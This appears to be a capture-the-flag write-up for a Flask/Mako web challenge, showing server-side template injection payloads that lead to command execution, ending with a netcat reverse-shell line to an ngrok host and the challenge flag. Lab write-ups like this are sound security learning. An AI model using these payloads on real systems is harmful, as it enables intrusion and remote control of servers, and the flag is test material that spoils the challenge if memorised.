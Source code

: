 The website is requesting user input and it transforms it into other fonts.

![image](https://user-images.githubusercontent.com/80063008/198247905-9ff0ebaa-35b4-4ef8-b7a1-92395c9480ff.png)

According to the source code it is using Flask Mako templating.

![image](https://user-images.githubusercontent.com/80063008/198247967-4c8a36de-01d3-4bd7-a54f-6fe8a1043c1a.png)

We can try a quick SSTI payload and can see that indeed it is vulnerable to this type of attacks.

```${6*6}```

![image](https://user-images.githubusercontent.com/80063008/198248049-de6ab918-456f-42b1-84a1-2877535ecebe.png)

However, when trying the Mako SSTi payload suggested on Hacktricks, the website crashes.

```<# import os x=os.popen('id').read()> ${x}```

![image](https://user-images.githubusercontent.com/80063008/198248164-21d96217-5d0a-4028-8d9e-09fa34c6a8e9.png)

After a bit more research, we find other potential payloads on PayloadAllTheThings.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#direct-access-to-os-from-templatenamespace

The first couple didn't work for me so what I did is I copied the entire list, sent the request to BurpSuite Intruder on the local docker with the list of payloads and looked at the error log. 

![image](https://user-images.githubusercontent.com/80063008/198249414-f57a1312-d1b7-457d-baeb-96ef938e8a15.png)

I noticed we had command execution on the server side with the payload below so I got a reverse shell.

```${self.template.module.runtime.util.os.system("nc 0.tcp.ngrok.io 19024 -e sh")}```

![image](https://user-images.githubusercontent.com/80063008/198248211-dcb80109-c09e-42ae-a9b6-3744fc195895.png)

HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
